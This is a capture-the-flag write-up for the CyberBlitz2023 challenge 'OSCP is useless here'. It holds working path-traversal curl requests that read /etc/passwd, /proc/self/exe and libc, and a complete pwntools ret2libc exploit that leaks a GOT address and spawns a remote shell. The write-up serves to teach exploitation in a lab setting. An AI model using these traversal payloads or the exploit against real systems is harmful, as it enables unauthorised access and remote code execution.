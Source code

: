 # CyberBlitz2023

I played with my team GreenHat and came in 1st place in this year’s SIT N0H4Ts Capture the Flag competition, CyberBlitz. 

Final Scoreboard

![scoreboard](images/scoreboard.png)

During the CTF, I solved the following challenges for my team.

![solves](images/solves.png)

---

## **OSCP is useless here (300 points)**

> Doesnt matter if you have OSCP or not, lets see you get the flag here.
> 
> 
> Connect at [http://34.126.68.54:20001/](http://34.126.68.54:20001/)
> 
> Author : Platy
> 

Category: Binary Exploitation

LFI on the webserver allowed us to dump the binary and associated libc file, which was then used to do a ret2libc attack to leak functions from the Global Offset Table (GOT) to calculate the LIBC offset, then execute system. 

Landing page, we get a site with no other useful information except that it is hosted on Debian Buster and for a Server header: `Http Server written in C`

![landingpage](images/landingpage.png)

![burpsuite](images/burpsuite.png)

Well.. It is binary exploitation, but what we have here is a webserver?

## LFI

After some directory enumeration, we find that the only page is index.html, which loads the same page which we saw in the landing page. Any invalid pages would be redirected to a `404 Not Found`.

We can look for other vulnerabilities such as LFI. When testing for LFI, we can get the contents of /etc/passwd (as this is a debian box) using `/../../../../../../etc/passwd`

![burpsuite2](images/burpsuite2.png)

## Leaking the binary

As the HTTP header suggests the application is a C program hosting a webserver, we can try to dump the binary. Looking into `/proc/self/exe` we could possibly dump the binary file as it would access the executable that is being run by the current process. This is also a common LFI enumeration endpoint: [https://thesecurityvault.com/path-traversal-lfi-can-be-worst-than-you-think/](https://thesecurityvault.com/path-traversal-lfi-can-be-worst-than-you-think/)

> `/proc/self/`
> 
> 
> When a process accesses this magic symbolic link, it resolves to the process's own /proc/pid directory.
> [https://man7.org/linux/man-pages/man5/proc.5.html](https://man7.org/linux/man-pages/man5/proc.5.html)
> 

We can verify this with burp and it returns what seems to be the contents of the binary.

![burpsuite3](images/burpsuite3.png)

To save it to our system, we can use curl with the `--path-as-is` parameter, as it would automatically shorten the `/../../` for us if run without.

```jsx
┌──(wayell㉿wayell)-[~/Desktop/CTF/2023/CyberBlitz2023/libc-database]
└─$ curl http://34.126.68.54:20001/../../../../../../proc/self/exe --path-as-is > binary                                                                                                                          
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100 17160    0 17160    0     0   165k      0 --:--:-- --:--:-- --:--:--  165k

┌──(wayell㉿wayell)-[~/Desktop/CTF/2023/CyberBlitz2023/libc-database]
└─$ file binary
binary: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=8fcbb0d24464a2d0db075447f04a763182b9d2db, not stripped
```

Checksec tells us it is a 64 bit executable with NX enabled and no other protections. As NX is enabled we won’t be able to execute code from the stack.

```jsx
┌──(kali㉿kali)-[~/Desktop/CTF/CyberBlitz2023]
└─$ checksec binary                                                                     
[*] '/home/kali/Desktop/CTF/CyberBlitz2023/binary'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

Analyzing the binary, we will find that there is a buffer overflow vulnerability which can be triggered with `"GET " + payload` as input.  Our attack path would be as follows:

1. Get the LIBC used by the binary
2. ROP to leak a function from the GOT on the remote server to calculate LIBC offset
3. ROP again and execute system 

To get the libc, a few different methods are detailed below

## Getting LIBC: LFI on libc

We can look into the filesystem to get the libc. As implied from the text in the site landing page, we are looking at a Debian box. For Debian based distros, most system libraries can be found from `/lib/x86_64-linux-gnu/`. We can also use ldd:

```python
┌──(wayell㉿wayell)-[~/Desktop/CTF/2023/CyberBlitz2023/libc-database]
└─$ ldd binary 
        linux-vdso.so.1 (0x00007ffc788dd000)
        libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007f397305a000)
        /lib64/ld-linux-x86-64.so.2 (0x00007f3973262000)
```

With curl, we would be able to get the libc from the remote server.

```python
┌──(wayell㉿wayell)-[~/Desktop/CTF/2023/CyberBlitz2023/libc-database]
└─$ curl http://34.126.68.54:20001/../../../../../../lib/x86_64-linux-gnu/libc.so.6 --path-as-is > libc.so                                                                                                        
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100 1777k    0 1777k    0     0   116k      0 --:--:--  0:00:15 --:--:--  117k

┌──(wayell㉿wayell)-[~/Desktop/CTF/2023/CyberBlitz2023/libc-database]
└─$ file libc.so
libc.so: ELF 64-bit LSB shared object, x86-64, version 1 (GNU/Linux), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=a65a82147cd98619525049d4c29cc45f88d1fb00, for GNU/Linux 3.2.0, stripped
```

## ROP

Now that we have the correct libc, we can start constructing our payloads to exploit the binary, which our end goal is to call system and spawn us a shell.

The following would leak the address of the puts in the GOT, which we can then use to calculate the libc offset (to defeat ASLR)

```python
plt_puts = elf.plt['puts']
got_puts = elf.got['puts']
leak_payload = b"GET " + b' ' * 260 + p64(poprdi) + p64(got_puts) + p64(plt_puts) + p64(elf.symbols['main'])
p.sendline(leak_payload)
```

This next part would then call system() and pass in ‘/bin/sh’ which we can get from libc.

```python
libc_offset = puts_address - libc.symbols['puts']
binsh = next(libc.search(b'/bin/sh')) + libc_offset
exploit_payload = b"GET " + b' ' * 260 + p64(poprdi) + p64(binsh) + p64(ret) + p64(libc_offset + libc.symbols['system'])
p.sendline(exploit_payload)
```

With the pieces, the final solver would be as follows:

```jsx
from pwn import *

libc = ELF("libc.so")
p = remote('34.126.68.54',20001)
#p = process("binary")
elf = ELF("binary")

# ROP gadgets
rop = ROP(elf)
poprdi = rop.find_gadget(["pop rdi", "ret"])[0]
ret = rop.find_gadget(["ret"])[0]

# leak puts
plt_puts = elf.plt['puts']
got_puts = elf.got['puts']
leak_payload = b"GET " + b' ' * 260 + p64(poprdi) + p64(got_puts) + p64(plt_puts) + p64(elf.symbols['main'])
p.sendline(leak_payload)

p.recvline()
p.recvline()
p.recvline()

# puts
leaked_puts = p.recvline()[:-1] 
puts_address = u64(leaked_puts + b'\x00' * (8 - len(leaked_puts)))
print(f'Leaked puts address: {hex(puts_address)}')

# libc offset
libc_offset = puts_address - libc.symbols['puts']
print(f'Libc offset: {hex(libc_offset)}')

# payload to call system
binsh = next(libc.search(b'/bin/sh')) + libc_offset
exploit_payload = b"GET " + b' ' * 260 + p64(poprdi) + p64(binsh) + p64(ret) + p64(libc_offset + libc.symbols['system'])

p.sendline(exploit_payload)

p.recvline()
p.recvline()
p.recvline()

p.interactive()
```

Which after running on the remote server, we get a shell and the flag.

![flag](images/flag.png)

```python
CyberBlitz{have_you_perhaps_considered_trying_harder_than_you_can_believe}
```